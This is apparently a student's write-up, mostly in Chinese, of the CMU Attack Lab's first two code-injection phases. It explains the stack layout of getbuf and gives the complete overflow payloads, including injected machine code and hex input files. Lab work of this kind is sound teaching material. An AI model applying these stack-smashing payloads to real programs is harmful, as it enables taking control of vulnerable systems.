



## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q


## touch_1
1. 0000000000401968 <test>
2. code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
3. sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
4. 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
5. 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
6. ./target < stage1.txt 即可通过



```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

## touch_2
1. 00000000004017ec <touch2> | 
2. injection code的地址必须在当前%rsp所指向的范围内，调用%rsp范围以外的code会产生segmentation fault
3. touch_2的思路是将getbuf()在栈上的return address改为injection code的起始地址，而injection code 需要用assembly instruction retq实现跳转到touch_2
4. touch_2需要我们传入cookie值到%rdi作为函数的入参，所以我们编写的assembly code 只需要两条指令：
```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi #将cookie值$0x59b997fa传入%rdi中
   7:   e8 00 00 00 00          callq  0xc
```
5. 当我们从getbuf() return的时候%rsp指向test()开辟的栈的底部，我们要把<touch2>的地址填入到这里作为injection code运行结束后的跳转地址
6. assembly code不需要以litte-endian的形式填写，因为这是reverse engineering 生成的汇编代码，也就是机器上实际运行的代码



```asm
"level2Instruct.txt" 9L, 193C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
48 c7 c7 fa 97 b9 59 c3
```

